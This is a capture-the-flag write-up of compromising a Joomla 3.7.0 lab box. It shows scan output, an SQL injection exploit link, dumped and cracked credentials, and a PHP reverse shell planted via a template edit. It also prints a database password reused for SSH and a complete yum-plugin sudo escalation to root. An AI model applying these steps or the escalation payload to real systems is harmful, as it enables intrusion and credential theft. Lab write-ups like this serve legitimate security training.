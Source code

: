 # namp

```shell
Nmap scan report for 10.10.196.247
Host is up (0.28s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)

```

# dir

```shell
/images               (Status: 301) [Size: 236] [--> http://10.10.196.247/images/]
/index.php            (Status: 200) [Size: 9280]                                  
/templates            (Status: 301) [Size: 239] [--> http://10.10.196.247/templates/]
/media                (Status: 301) [Size: 235] [--> http://10.10.196.247/media/]    
/modules              (Status: 301) [Size: 237] [--> http://10.10.196.247/modules/]  
/bin                  (Status: 301) [Size: 233] [--> http://10.10.196.247/bin/]      
/plugins              (Status: 301) [Size: 237] [--> http://10.10.196.247/plugins/]  
/includes             (Status: 301) [Size: 238] [--> http://10.10.196.247/includes/] 
/language             (Status: 301) [Size: 238] [--> http://10.10.196.247/language/] 
/components           (Status: 301) [Size: 240] [--> http://10.10.196.247/components/]
/cache                (Status: 301) [Size: 235] [--> http://10.10.196.247/cache/]     
/libraries            (Status: 301) [Size: 239] [--> http://10.10.196.247/libraries/] 
/tmp                  (Status: 301) [Size: 233] [--> http://10.10.196.247/tmp/]       
/layouts              (Status: 301) [Size: 237] [--> http://10.10.196.247/layouts/]   
/administrator        (Status: 301) [Size: 243] [--> http://10.10.196.247/administrator/]
/configuration.php    (Status: 200) [Size: 0]                                            
/cli3.7.0(Status: 301) [Size: 233] [--> http://10.10.196.247/cli/] 
```

Joomla version  `3.7.0`

exploit `https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py`

Found user ['811', 'Super User', 'jonah', '**jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm',**

**joomla credential**  `Jonah:spiderman123 `

**shell access**

![](https://muirlandoracle.co.uk/wp-content/uploads/2020/02/13-2.png)

![](https://muirlandoracle.co.uk/wp-content/uploads/2020/02/14-2.png)

Extensions -> Templates -> Templates

- And changing the error.php file with php reverse shell and save 
- start nc listener
- Triger the error page and check the nc listener.
- shell will be created

**configuration.php**

```php

	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'UAMBRWzHO3oFPmVC';

```

jjameson ssh credential      `jjameson:nv5uz9r3ZEDzVjNu`

# privilege escalation

`sudo -l`

![image-20220507125640224](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220507125640224.png)

Run the following for root access

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```